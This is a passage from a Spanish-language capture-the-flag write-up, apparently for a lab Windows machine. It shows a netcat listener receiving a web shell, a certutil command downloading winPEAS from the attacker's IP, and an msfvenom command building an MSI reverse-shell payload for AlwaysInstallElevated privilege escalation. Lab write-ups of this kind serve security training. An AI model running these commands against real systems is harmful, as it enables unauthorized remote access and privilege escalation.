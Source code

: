 Si vamos a nuestro `netcat`:

```
nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 50710
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoeb
```

Hemos conseguido acceso al sistema (La explicación de por qué funciona este exploit será más adelante cuando programemos el autopwn).

Buscamos la flag de usuario:
```
C:\Users\Phoebe\Desktop>type user.txt
type user.txt
3f115dbec9b51e23c3608a87d
```

Bien, tenemos la flag, ahora debemos escalar privilegios.

## Escalada de privilegios

Para encontrar vías potenciales de escalada utilizaremos `winPEAS.exe`, mediante un servidor http con **python** compartimos el recurso y dentro de la máquina víctima ponemos:

```
certutil.exe -f -urlcache -split http://10.10.14.17/winPEASx64.exe winPEAS.exe
```

Al tenerlo en el equipo lo ejecutamos y buscamos cosas interesantes:

```
Checking AlwaysInstallElevated
 https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

Observamos una posible forma de escalar privilegios, iremos a web de hacktricks para ver en que consiste.

Básicamente, debemos realizar un payload .msi que haga una reverse shell con `msfvenom` y luego ejectuarlo con **msiexec /quiet /qn /i**.

Por lo tanto, creamos el payload:
```
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.14.17 LPORT=1235 --platform windows -a x64 -f msi -o reverse.msi
```
